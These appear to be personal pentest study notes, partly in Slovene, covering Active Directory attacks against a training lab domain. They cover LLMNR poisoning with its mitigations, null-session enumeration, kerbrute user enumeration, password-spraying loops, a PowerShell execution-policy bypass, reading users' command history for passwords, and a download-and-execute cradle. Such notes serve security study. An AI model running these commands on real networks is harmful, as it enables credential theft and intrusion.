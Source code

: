 
## Getting hashes and creds

- Responder 
- Inveigh 

#### Mitigation

- disable llmnr 
- ![[Pasted image 20241223130548.png]]
> Computer Configuration --> Administrative Templates --> Network --> DNS Client and enabling "Turn OFF Multicast Name Resolution."

- NetBios ni mogoče preko GPO
- startup skripta v AD
``` powershell
$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces"
Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}

```

## null sessions & pass policies

#### Crackmapexec
```shell
crackmapexec smb <ip> -u <user> -p Password123 --pass-pol
```

#### enum4linux-ng

```bash 
enum4linux-ng -P <ip> -oA <output-file>
```

> JSON in YAML za parsanje


#### ldapsearch

```shell 
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```
### Windows

```powershell
net use \\DC01\ipc$ "" /u:""
``` 

## Building a user list

### kerbrute

```shell
kerbrute userenum -d <domain> --dc 172.16.5.5 /opt/jsmith.txt 
```

#### ldapsearch

```shell
ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "
```

### PAssword spraying

```shell
for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done
```

#### kerbrute

```shell
kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt  Welcome1
```


https://wadcoms.github.io/

SNAFFLER -> smb shares enum for pass and keys and other stuff

### Living of the land

| **Description**                                                                                                                                                                                                                               | **Cmd-Let**                                                                                                                |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| Lists available modules loaded for use.                                                                                                                                                                                                       | `Get-Module`                                                                                                               |
| Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         | `Get-ExecutionPolicy -List`                                                                                                |
| This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. | `Set-ExecutionPolicy Bypass -Scope Process`                                                                                |
| Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                | `Get-ChildItem Env: \| ft Key,Value`                                                                                       |
| With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       | `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 |
| This is a quick and easy way to download a file from the web using Powe                                                                                                                                                                       | `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` |

#### WMI

| **Command**                                                                          | **Description**                                                                                        |
| ------------------------------------------------------------------------------------ | ------------------------------------------------------------------------------------------------------ |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn`                              | Prints the patch level and description of the Hotfixes applied                                         |
| `wmic computersystem get Name,Domain,Manufacturer,Model,Username,Roles /format:List` | Displays basic host information to include any attributes within the list                              |
| `wmic process list /format:list`                                                     | A listing of all processes on host                                                                     |
| `wmic ntdomain list /format:list`                                                    | Displays information about the Domain and Domain Controllers                                           |
| `wmic useraccount list /format:list`                                                 | Displays information about all local accounts and any domain accounts that have logged into the device |
| `wmic group list /format:list`                                                       | Information about all local groups                                                                     |
| `wmic sysaccount list /format:list`                                                  | Dumps information about any system accounts that are being used as service accounts.                   |


### LDAP filtering
![[Pasted image 20241224091626.png]]

``` powershell
dsquery *  -filter "((userAccountControl:1.2.840.113556.1.4.803:=<od zhoraj>))" -attr distinguishedName description
```